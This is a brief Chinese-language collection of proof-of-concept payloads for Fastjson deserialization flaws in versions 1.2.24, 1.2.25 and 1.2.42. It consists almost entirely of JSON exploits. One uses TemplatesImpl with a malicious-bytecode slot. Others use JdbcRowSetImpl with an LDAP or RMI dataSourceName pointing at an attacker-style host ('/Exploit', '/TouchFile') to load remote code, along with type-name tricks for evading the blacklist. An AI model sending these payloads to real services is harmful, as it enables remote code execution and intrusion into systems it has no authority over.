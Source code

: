 ### 一、Fastjson 1.2.24版本  
  
**TemplatesImpl 反序列化**  
  
最终Poc  
为  
```
{
    "@type": "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl",
    "_bytecodes": ["恶意字节码"],
    "_name": "test",
    "_tfactory": {},
    "_outputProperties": {},
}
```  
  
  
**JdbcRowSetImpl 反序列化**  
  
最终Poc  
为  
```
{  
  "@type":"com.sun.rowset.JdbcRowSetImpl",  
  "dataSourceName":"ldap://127.0.0.1:1234/Exploit",  
  "autoCommit":true  
}
```  
  
### 二、Fastjson 1.2.25版本  
  
附上Poc  
```
{  
  "@type":"[com.sun.rowset.JdbcRowSetImpl;",  
  "dataSourceName":"ldap://127.0.0.1:1234/Exploit",  
  "autoCommit":true  
}  
或   
{  
  "a":{  
    "@type":"LLcom.sun.rowset.JdbcRowSetImpl;;",  
    "dataSourceName":"rmi://test.com:9999/TouchFile",  
    "autoCommit":true  
  }  
}
```  
  
### 三、Fastjson 1.2.42版本  
  
最终Poc  
，添加两个类描述符  
```
{  
  "@type":"LLcom.sun.rowset.JdbcRowSetImpl;;",  
  "dataSourceName":"ldap://127.0.0.1:1234/Exploit",  
  "autoCommit":true  
}
```  
  